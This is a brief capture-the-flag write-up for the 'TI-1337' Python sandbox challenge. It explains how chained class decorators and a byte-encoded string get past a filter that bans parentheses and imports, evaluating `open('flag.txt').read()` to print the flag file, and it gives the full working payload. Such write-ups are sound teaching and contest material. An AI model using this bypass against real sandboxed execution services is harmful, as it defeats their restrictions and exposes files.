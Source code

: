 # TI-1337, 250 pts

This challenge gave a highly restrictive Python `exec` sandbox (no parentheses, no hashtags, no brackets, no imports, etc.). However, it did allow colons and the `@` symbol, so classes could be decorated and lambda functions could be made. Using this, you could open the flag file and read it (credits to defund for some of the solution writing):

```python
x = 111, 112, 101, 110, 40, 39, 102, 108, 97, 103, 46, 116, 120, 116, 39, 41, 46, 114, 101, 97, 100, 40, 41
y = lambda z: x
@print
@eval
@bytes
@y
class z:
	pass
```
